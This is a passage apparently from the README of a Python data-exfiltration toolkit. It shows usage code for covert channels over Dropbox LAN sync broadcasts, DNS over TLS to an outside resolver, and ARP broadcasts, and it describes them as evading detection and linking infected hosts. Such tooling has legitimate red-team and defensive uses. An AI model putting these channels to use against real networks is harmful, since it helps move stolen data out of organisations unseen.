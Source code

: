 
Please notice that the `listener` is the IP from which you're expecting to get the message. This is so that when you get a broadcast you know which one to decode and understand. `active` will point to which IP address to send the UDP packets. Use a `.255` address for broadcast or a specific IP for unicast.

Constant Sniff and Decode :
```python
SniffAndDecode(key="123456", host="OtherIP", port=17500)
```

Broadcast a message:
```python
obj = DB_LSP(key="123456", data="Hello World", host="192.168.0.255", port=17500)
obj.Send()
```

#### DNS Over TLS

DNS over TLS is as it sounds. As more and more services start supporting DNS over TLS and it seems like many organizations keep that door open as it this protocol provides superior protection over plain-text DNS we thought this might be an interesting opportunity.

```python
# For Client:
from pyexfil.Comm.DNSoTLS.client import Send

Send(data="Hal, please open the door.", server='1.1.1.1', port=DNS_OVER_TLS_PORT, certCheck=CHECK_CERT)


# Server:
from pyexfil.Comm.DNSoTLS.server import StartServer

StartServer(server_name=LOCAL_HOST, port=DNS_OVER_TLS_PORT, clients=MAX_CLIENTS, certfile=CERT_FILE, keep_ratio=True)
```

#### ARP Broadcast
This method is using ARP to broadcast messages over the LAN so that someone listening cannot locate who is listening on this channel. Obviously ARP would not be relayed outside the LAN, however, as a mesh network inside the LAN with broadcast functionality it should be as close an possible to impossible to detect and then identify infected hosts.

```python
# Broadcast:
from PyExfil.pyexfil.Comm.ARPBroadcast.communicator import broadcast

broadcast(message="This is a late parrot!", key=PYEXFIL_DEFAULT_PASSWORD)


# Listener:
import thread
from PyExfil.pyexfil.Comm.ARPBroadcast.communicator import Broker

b = Broker(key=PYEXFIL_DEFAULT_PASSWORD, retFunc=testCallBack)
thread.start_new_thread(b.listen_clients, ())
```

